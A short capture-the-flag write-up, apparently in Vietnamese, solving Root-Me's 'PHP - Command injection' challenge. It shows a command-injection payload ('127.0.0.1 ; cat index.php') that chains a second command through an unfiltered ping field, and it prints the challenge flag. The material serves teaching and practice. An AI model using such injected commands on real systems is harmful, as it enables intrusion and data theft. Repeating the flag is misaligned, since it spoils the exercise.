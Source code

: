 # PHP- Command injection

[![Hits](https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https%3A%2F%2Fgithub.com%2FTienNHM%2Froot-me-ctf%2Ftree%2Fmaster%2FWeb-server%2FPHP%2520-%2520Command%2520injection&count_bg=%2379C83D&title_bg=%232D8FFF&icon=markdown.svg&icon_color=%23092753&title=Visitors&edge_flat=false)](https://hits.seeyoufarm.com)

```HTML
 *** Link :http://challenge01.root-me.org/web-serveur/ch54/
```

## Request

![](request.png)

![](sc.png)

## Solution

```HTML
***  Do input chưa có filter nên dễ dàng chèn các câu lệnh command thực thi vào như cat, ls, ...
    Vì : flag nằm trong file index.php, nên ta sẽ dùng câu lệnh cat để đọc file
```

#### Step1: Nhập : 127.0.0.1 ; cat index.php

![](result1.png)

#### Step2: Tìm trong source

![](source.png)

```HTML
*** Vậy flag: S3rv1ceP1n9Sup3rS3cure
```
